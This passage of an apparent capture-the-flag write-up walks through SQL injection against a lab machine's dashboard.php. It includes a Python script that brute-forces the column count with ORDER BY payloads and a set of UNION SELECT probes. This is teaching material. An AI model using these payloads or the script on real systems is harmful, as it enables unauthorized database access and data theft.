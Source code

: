 ### Python script
- However, I'm kinda lazy. So, I made python script for it.

```python
#!/usr/bin/env python3

import requests

for i in range(1,100):
    url = f"http://10.10.10.46/dashboard.php?search=' ORDER BY {i} --"
    c = {'PHPSESSID':'lfbncgq98bat28uu4v3r4j2dnh'}
    r = requests.get(url, cookies=c)
    if len(r.content) == 2449:
        print(f"Error Not Here {i}")
    else:
        print(f"Error Here {i}")
```

- the result

![checking columns](12.png "checking columns")

- By looking at this result, we've found 5 columns.

### Finding Columns with useful data

{{< admonition info >}}
Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.
{{< /admonition >}}


- Now, we just found `5 columns` 
- The next payload gonna be using `UNION SELECT` 
- `Place string into each column.`
- This is what I'm gonna try:
	- `' UNION SELECT 'a',NULL,NULL,NULL,NULL--`
	- `' UNION SELECT NULL,'a',NULL,NULL,NULL--`
	- `' UNION SELECT NULL,NULL,'a',NULL,NULL--`
	- `' UNION SELECT NULL,NULL,NULL,'a',NULL--`
	- `' UNION SELECT NULL,NULL,NULL,NULL,'a'--`


- Well, we've found an error at the first column that state:
	- `ERROR:  invalid input syntax for integer: "a"
LINE 1: ...ect \* from cars where name ilike '%' UNION SELECT 'a',NULL,N...`
